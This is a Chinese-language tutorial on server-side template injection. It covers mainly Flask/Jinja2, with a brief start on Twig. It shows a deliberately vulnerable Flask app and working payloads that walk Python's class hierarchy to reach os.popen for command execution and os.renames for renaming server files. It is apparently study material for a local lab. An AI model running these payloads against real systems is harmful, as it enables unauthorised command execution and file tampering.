SSTI基础
前言
每个模板都是大致类似却各有区别的，上个模版注入的内容不一定适用于下一个模板，最有效的注入方法除了网上百度各大师傅的文章，就只有查阅帮助文档
简介与原理
我们在写项目时，为了方便且简单实现界面数据分离，业务逻辑分离，通常使用模板来实现
模板定义了在前端调用后端数据的方法，最常见的就是
当服务端没有对用户的输出进行处理时，一但用户输入了符合条件的命令，就会造成模板注入，这点几乎是所有注入所共通的地方
我们称这个漏洞为SSTI，也叫沙盒逃逸
模板框架

基本的测试方法：
这里的绿线表示结果成功返回，红线反之。有些时候，同一个可执行的 payload 会在不同引擎中返回不同的结果，比方说7*’7’会在 Twig 中返回49，而在 Jinja2 中则是7777777。
FlaskSSti
基于python的模板引擎
内建函数
在我们没有启动一个python解释器时，即使没有创建任何的变量和函数，仍然有很多函数可以调用，我们称之为内建函数
内建函数并不需要我们自己做定义，而是在启动python解释器的时候，就已经导入到内存中供我们使用，想要了解这里面的工作原理，我们可以从名称空间开始。
名称空间在python是个非常重要的概念，它是从名称到对象的映射，而在python程序的执行过程中，至少会存在两个名称空间
内建名称空间：python自带的名字，在python解释器启动时产生，存放一些python内置的名字
全局名称空间：在执行文件时，存放文件级别定义的名字
局部名称空间（可能不存在）：在执行文件的过程中，如果调用了函数，则会产生该函数的名称空间，用来存放该函数内定义的名字，该名字在函数调用时生效，调用结束后失效
加载顺序：内置名称空间------>全局名称空间----->局部名称空间
名字的查找顺序：局部名称空间------>全局名称空间----->内置名称空间
在python中运行dir()，我们可以看到这些内置的函数

可以看到，str,zip,ascii都在其中
内建属性
1.__class__ ：
__class__功能和type()函数一样，都是查看对象所在的类。
__class__可以套用
例如："".__class__ <class 'str'>
或者 a = 123
print(a.__class__) <class 'int'>
2.__bases__ :
__bases__属性可以获取对象的基类
该属性返回所有直接父类组成的元组。注意是直接父类！！！
使用语法：类名.bases,常配合__class__使用
例如："".__class__.__bases__ <class 'object'>
这里返回的便是str类的父类object,object也是python所有函数的基类
3.__mro__ :
__mro__属性获取整个类的继承关系，返回内容是一个列表
当使用__bases__无法获取基类object时，使用__mro__[-1]即可得到基类object
4.__subclasses__() :
__subclasses__()函数获取基于此父类下的所有子类
__subclasses__()返回一个列表
例如：a= 123;
print(a.__class__.__subclasses__()) <class 'bool'>
这里返回了基于int类的所有子类，如果我们想得到object的子类，只需定位到该类即可
"".__class__.__bases__[0].__subclasses__()
这也是类继承的原理

类继承
python中对一个变量应用class方法从一个变量实例转到对应的对象类型后，类有以下三种关于继承关系的方法
__bases__ //对象的一个基类，一般情况下是object，有时不是，这时需要使用下一个方法
__mro__ //同样可以获取对象的基类，只是这时会显示出整个继承链的关系，是一个列表，object在最底层故在列表中的最后，通过__mro__[-1]可以获取到
__subclasses__() //继承此对象的子类，返回一个列表
有这些类继承的方法，我们就可以从任何一个变量，回溯到基类中去，再获得到此基类所有实现的类，就可以获得到很多的类啦。
魔术方法
__int__，__new__和__call__
这三个魔术方法都是用来定义一个类，用得最多的就是 __init__ 方法，而 __new__ 和 __call__ 使用得比较少
1.__init__ ：
__init__方法负责对象的初始化
可以方便地自己对类的属性进行定义，__init__()方法又被称为构造器
当实例对象创建完成后被调用，然后设置对象属性的一些初始值。
2.__new__ :
在实例创建之前被调用，它的任务就是创建实例然后返回该实例
是个静态方法。
3.__call__ :
将一个类实例变成一个可调用对象
在定位到基类的子类后，可以用这三个方法调用那个类
__globals__
这个方法用于查找所有的方法及变量与参数
SSTI实现方法
了解了上面这些内置函数和魔术函数，可能有些师傅已经明白SSTI的实现方法了
这里以python 的莫模板注入为例，实际上所有的ssti原理都大致相通
当我们实现一个操作时，即使这个操作非常的简单，python都是从一个基类开始向上进行类的调用，最终实现一个简单的操作
python中所有类默认继承object类，而object类提供了了很多原始的内建属性和方法，所以用户自定义的类在Python中也会继承这些内建属性。
这个上面已经提到
当我们使用上述的内置属性和魔术方法定位至可以执行命令的类时，使用__init__将其调用，然后找到利用点，传入参数利用
这样就实现了ssti模板注入的攻击
注入示例及分析
from flask import Flask
from flask import render_template
from flask import request
from flask import render_template_string
app = Flask(__name__)
@app.route('/',methods=['GET', 'POST'])
def index():
id = request.args.get("id")
template = "<h1>%s</h1>" % (id)
return render_template_string(template)
if __name__ == '__main__':
app.debug = True
app.run()
传入
''.__class__
得到python基类
?id=''.__class__.__bases__
查看此程序所有使用的子类
?id=''.__class__.__bases__[0].__subclasses__()
找到可以执行命令的类
?id=''.__class__.__bases__[0].__subclasses__()[118]
os库
os 库用于操作和处理文件
os库中提供了可以执行命令的函数
例如：
os.system()
os.popen()
os.popen()
用法：os.popen(command[,mode[,bufsize]])
说明：mode – 模式权限可以是 ‘r’(默认) 或 ‘w’。
popen方法通过p.read()获取终端输出，而且popen需要关闭close().当执行成功时，close()不返回任何值，失败时，close()返回系统返回值（失败返回1）. 可见它获取返回值的方式和os.system不同。

可以看到我们用read()可以把结果回显。
?id = {{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()}}
或者
?id={{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir','r').read()}}
os.system()
用法：os.system(command)
这个调用相当直接，且是同步进行的，程序需要阻塞并等待返回。返回值是依赖于系统的，直接返回系统的调用返回值。
注意：该函数返回命令执行结果的返回值，并不是返回命令的执行输出（执行成功返回0，失败返回-1）

subprocess
subprocess 模块有比较多的功能，subprocess模块被推荐用来替换一些老的模块和函数，如：os.system、os.spawn、os.popen等
subprocess模块目的是启动一个新的进程并与之通信。这里只讲用来运行shell命令的两个常用方法。

?id={{"".__class__.__bases__[0].__subclasses__()[376].__init__.__globals__['os'].popen('dir','r').read()}}
subprocess.call(“command”)
父进程等待子进程完成
返回退出信息(returncode，相当于Linux exit code)
与os.system功能相似,也无执行结果的回显
subprocess.Popen(“command”)
说明：class subprocess.Popen(args, bufsize=0, executable=None, stdin=None, stdout=None, stderr=None, preexec_fn=None, close_fds=False, shell=False, cwd=None, env=None, universal_newlines=False, startupinfo=None, creationflags=0)
Popen非常强大，支持多种参数和模式，通过其构造函数可以看到支持很多参数。但Popen函数存在缺陷在于，它是一个阻塞的方法，如果运行cmd命令时产生内容非常多，函数就容易阻塞。另一点，Popen方法也不会打印出cmd的执行信息。
操作思路
SSTI考验的对代码的熟悉，能快速找到可执行的代码，就可以实现我们的目地
举个例子
现在我们找到了所有的函数，假设我们知道文件的路径
D:\phpstudy_pro\WWW\ssti\ls.py

在os模块下，我们找到了rename函数，尝试调用它
?id={{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['renames']('D://phpstudy_pro//WWW//ssti//ls.py','D://phpstudy_pro//WWW//ssti//测试一下修改成果.html')}}

成功
所以SSTI的思路简单总结下来就是：
- 找到注入点
- 定位到任一父类
- 找到基于当前父类，可以实现我们目的的子类
__init__调用此类，__globals__查找函数和方法- 调用函数或方法，执行我们想要执行的命令
其中查看子类事往往有很多结果，甚至没有回显
这时使用执行语句来查找，如上面的重命名就可以用命令执行：
?id=
{% for a in "".__class__.__bases__[0].__subclasses__() %}
{% if a.__name__ == "_wrap_close" %}
{% for b in a.__init__.__globals__ %}
{% if "renames" in b %}
{{ a.__init__.__globals__['rename']('D://phpstudy_pro//WWW//ssti//1.py','D://phpstudy_pro//WWW//ssti//2.py') }}
{% endif %}
{% endfor %}
{% endif %}
{% endfor %}
最中间语句可以更简单，不过我不会写了

修改成功
Twig
基于PHP的模板引擎
注入基础
全局变量
Twig模板定义了三个全局变量，这三个变量可在任意位置调用
_self: 引用当前模板；_context: 引用当前上下文；_charset: 引用当前字符集；
注入，在Twig2后已弃用